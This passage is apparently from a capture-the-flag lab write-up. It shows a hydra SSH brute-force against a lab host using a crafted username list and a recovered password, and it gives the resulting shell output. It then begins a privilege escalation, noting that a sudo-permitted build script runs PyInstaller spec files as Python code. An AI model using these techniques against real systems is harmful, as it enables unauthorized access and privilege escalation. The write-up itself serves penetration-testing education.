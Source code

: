 #### Brute force username for SSH login with hydra
We created a file with different username variations for Thomas Keller based on the data we got from the database
```bash
$ cat usernames.txt                     
thomas
mike
Thomas
Mike
thomas-keller
thomas_keller
tkeller
thomask
thomas_keller
thomas_keller
Thomas_keller
Thomas_Keller
Thomas-Keller
Json

```

```bash
hydra -L usernames.txt -p 'denjanjade122566' 10.10.11.206 ssh
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:14/p:1), ~1 try per task
[DATA] attacking ssh://10.10.11.206:22/
[22][ssh] host: 10.10.11.206   login: tkeller   password: _redacted_
```

```
tkeller@socket:~$ ls
user.txt
tkeller@socket:~$ whoami
tkeller
tkeller@socket:~$ cat user.txt
```

### Priv esc

```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

Our user can sudo run `/usr/local/sbin/build-installer.sh`. It looks like this allows to create spec files and to build based on these spec files. The spec file tells PyInstaller how to process your script. It encodes the script names and most of the options you give to the pyinstaller command. **The spec file is actually executable Python code**. PyInstaller builds the app by executing the contents of the spec file.

